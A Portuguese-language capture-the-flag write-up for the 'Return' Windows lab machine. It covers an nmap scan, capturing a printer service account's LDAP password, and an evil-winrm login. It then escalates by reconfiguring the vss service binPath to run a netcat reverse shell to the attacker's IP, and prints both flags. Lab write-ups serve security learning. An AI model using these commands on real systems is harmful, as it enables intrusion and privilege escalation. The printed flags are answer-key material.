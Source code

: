 # Return Writeup

## Scan e Enum

```
# Nmap 7.92 scan initiated Mon Dec 27 10:57:19 2021 as: nmap -sV -Pn -v -oN scan.txt 10.129.222.183
Nmap scan report for 10.129.222.183
Host is up (0.24s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-27 16:16:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 27 10:57:42 2021 -- 1 IP address (1 host up) scanned in 22.72 seconds
```

Tendo feito o scan, podemos ver que o host possui um servidor web que possui um arquivo de settings de uma impressora. Essa página no permite mudar o host, com isso podemos colocar nosso ip no server e receber uma mensagem na porta 389, queseria a senha do usuário. Para mais detalhes ver esse artigo --> https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856

Tendo a conta em mãos podemos logar no evil-winrm com o seguinte comando: ```evil-winrm -i 10.129.222.183 -u svc-printer -p '1edFg43012!!'```

Tendo logado no evil-winrm podemos pegar a flag de user.

* User Flag

```
cd C:\Users\svc-printer\Desktop
type user.txt
e096181af1c7f121d0db2efd615ca1a0
```

Tendo pego a flag de user, podemos fazer a enumeração para escalarmos para root.
Após enumerar um pouco, podemos ver que o nosso usuário está no grupo de "Server Operators", o que nos permite fazer alterar o path de um arquivo que esteja executando com permissões administrativas, pará-lo e xecutar ele novamente, para que assim possamos pegar shell reversa. Para mais detalher ver o artigo --> https://cube0x0.github.io/Pocing-Beyond-DA/

Comandos:

```
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.23 1234"
sc.exe vss stop
sc.exe vss start
```

Ao receber a conexão reversa, podemos pegar a flag de root

```
cd C:\Users\Administrator\Desktop
type root.txt
46d3cf5c5eac898b2bb1de896a63dc10
```
